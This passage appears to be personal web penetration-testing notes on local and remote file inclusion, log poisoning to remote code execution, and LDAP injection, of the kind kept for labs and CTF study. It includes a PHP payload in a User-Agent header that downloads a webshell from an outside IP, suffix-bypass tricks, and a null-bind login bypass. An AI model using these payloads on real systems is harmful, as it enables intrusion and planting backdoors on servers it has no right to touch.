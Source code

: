 * The `?` marks the *beginning* of the query string, the `&` is used to separate individual variables *within* the query string.

* part of a file name in a call to an including function (`require`, `require_once`, `include` or `include_once` in PHP for example)

  to check which function is being called add   '  in a paramenter page example `?page=intro.php'`

* if there is an addition of suffix in server side code then,

  we can get rid of the suffix (for LFI) using a NULL BYTE. For RFI, you can get rid of the suffix, by adding `&blah=` or `?blah=` depending on your URL.

### LFI to RCE

* after getting LFI we can read `/etc/passwd` so now we can also read `/var/log/apache2/access.log` in this file all the logs are saved.

* we see that in this logs file if anyone access the website then his **ip address** and **user-agent** are saved in this file.

  that means if we modify our **user-agent** in the request and put our payload inside it then it will be echoed in this log file.

* so we can make a python http server on port 1234 and upload a webshell to the server by following payload:

  ```
  User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://10.8.82.228:1234/phpshell.php')) ?>
  ```

### LDAP

* some LDAP servers authorise NULL Bind: if null values are sent,

  If you keep something like `username=&password=` in the URL, these values will not work, since they won't be null; instead, they will be empty.

  so replace `username=&password=` with `1` in burpsuite intercept

  NOTE: This is an important check even if the backend is not LDAP based

##### Basic Syntax

* When you are retrieving a user, based on its username, the following will be used:

  ```
  (cn=[INPUT])
  ```

* A boolean OR using `|`:

  ```
  (|(cn=[INPUT1])(cn=[INPUT2]))
  ```

  to get records matching `[INPUT1]` or `[INPUT2]`

* A boolean AND using `&`:
